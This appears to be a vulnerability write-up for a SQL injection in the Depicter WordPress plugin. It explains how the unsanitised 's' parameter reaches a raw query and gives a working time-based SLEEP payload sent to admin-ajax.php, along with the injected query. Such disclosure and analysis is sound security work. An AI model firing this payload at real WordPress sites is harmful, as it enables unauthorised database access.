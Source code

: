 Here, the `s` parameter (which the patch protects) is concatenated directly into the query using `appendRawWhere`.
Part of the resulting query would be:

```sql
AND (lf.value like '%s_here%' OR leadtable.content_name like '%s_here%')
```

👉 Thus, when sending a **GET request** to `/wp-admin/admin-ajax.php` with parameters:

```
action=depicter-lead-index&s=payload_here
```

* `list` is called with only the `s` parameter provided.
* `getResults` receives `$args`.
* The condition `if( ! $args['includeFields'] )` triggers `getLeadsResults`.
* The vulnerable SQL query executes, leading to SQL Injection.

## Exploit

### Detect SQLi

Send a **GET request** with a time-based SQLi payload:

```http
GET /wp-admin/admin-ajax.php?action=depicter-lead-list&s=999%25'+AND+(SELECT+1+FROM+(SELECT+SLEEP(5))a))+--+-+ HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Decoded payload:

```sql
999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) -- -
```

This makes part of the query:

```sql
AND (lf.value like '999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) -- ' OR leadtable.content_name like '999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) #')
```

![response time](resp_time.png "Response time showing the payload execution")
